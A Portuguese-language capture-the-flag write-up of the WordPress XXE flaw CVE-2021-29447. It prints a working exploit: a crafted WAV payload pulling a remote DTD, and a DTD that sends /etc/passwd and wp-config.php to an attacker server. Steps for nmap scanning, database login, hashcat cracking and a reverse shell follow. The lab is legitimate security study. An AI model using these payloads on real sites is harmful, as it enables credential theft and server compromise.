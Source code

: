# _**Wordpress: CVE-2021-29447**_
![](wordpress.jpg)

# Informativo
_Uma vulnerabilidade XXE consiste em uma injeção que se aproveita da configuração incorreta do interpretador XML_
_Isso nos permite incluir entidades externas, possibilitando o ataque a aplicações que interpretam a linguagem XML em seus parâmetros_  
_Pesquisadores da empresa de segurança SonarSource descobriram uma falha de segurança de injeção de entidade externa XML (XXE) na biblioteca de mídia do WordPress_  
_A vulnerabilidade pode ser explorada somente quando este CMS roda em PHP 8 e o usuário atacante tem permissão para carregar arquivos de mídia_  

# Impacto
<mark>Divulgação arbitrária de arquivos:</mark> O conteúdo de qualquer arquivo no sistema de arquivos do host pode ser recuperado, por exemplo, wp-config.php que contém dados confidenciais, como credenciais de banco de dados  
<mark>Falsificação de solicitação do lado do servidor (SSRF):</mark> Solicitações HTTP podem ser feitas em nome da instalação do WordPress  

# Arquivo malicioso WAV
Com seu console _bash_, digite
> bash
> nano poc.wav echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[ip_address]:[port]/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
> ```

Na sua máquina de ataque, crie um arquivo dtd com o seguinte código. Isso nos permitirá executar o código seguindo o servidor web que busca o arquivo dtd  
Certifique-se de que o nome deste arquivo corresponde ao que você inseriu no arquivo _.wav_ para **NAMEEVIL.dtd**  
> ```bash
> <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
> <!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://[ip_address]:[port]/?p=%file;'>" >
> ```

Agora inicie um servidor http no mesmo diretório do arquivo dtd: ```php -S [ip_address]:[port]```  
Agora carregue o _.wav_ malicioso no aplicativo WordPress!  
Depois de carregar o arquivo _.wav_, você deverá ver uma solicitação nos logs do seu servidor HTTP  

## _**Parte prática**_
Vamos utilizar a ferramenta <mark>wpscan</mark> para enumerar  
> ```bash
> wpscan --url [ip_address] -U -e vp vt
> ```
![](wp_scan.jpg)

Seguindo as instruções, realizamos login no website  
Vamos para _/wp_admin/upload.php_ realizar _upload_ de nosso _payload_ _.wav_  
Primeiro, ligamos nosso servidor HTTP com Python: ```python3 -m http.server [port]```  
O exemplo diz para utilizar ```php```, mas é mais rápido com este  
Segundo, nossos arquivos estão prontos, realizamos _upload_ e temos resultado  

![](upload_return.jpg)

Utilizando [cyberchef](https://cyberchef.io/) para traduzir o conteúdo, temos o arquivo _/etc/passwd_  
Note que para a tradução, é preciso incluir _raw inflate_, senão o resultado será diferente  

![](cyberchef.jpg)

Para obtermos o arquivo de configuração, vamos alterar nosso arquivo _script.dtd_ para obtermos _//var/www/html/wp-config.php_  

![](var_www_return.jpg)

Nesta tradução, conseguimos as respotas para:
* _Based on the results of #1, what is the name of the database for WordPress?_
* _Based on the results of #1, what are the credentials you found?_
* _Enumerate and identify what is the dbms installed on the server?_

Um rápido scan com ```nmap -p- -sV --open [ip_address]``` e temos:
* _Based on the results of #4, what port is the dbms running on?_
* _Based on the results of #4, what is the dbms version installed on the server?_

Realizando login via ```mysql -h [ip_address] -u [username] -p --skip-ssl```, conseguimos responder:
* _Compromise the dbms, What is the encrypted password located in the wordpress  users table with id 1??_
* _Based on the results of #7, What is the password in plaint text?_
* _Compromise the machine and locate flag.txt_

Para a primeira, é necessário identificar a hash com <mark>hash-identifier</mark>  
Para a segunda, é preciso quebrar a hash identificada. Vamos utilizar <mark>hashcat</mark>: ```hashcat -m 400 [hash] [wordlist]```  
Para a terceira, vamos realizar login como ```corp-001``` e então podemos usar um script em PHP do _pentest monkey_ para obter um _reverse shell_ direto em plugins  

![](flag.jpg)
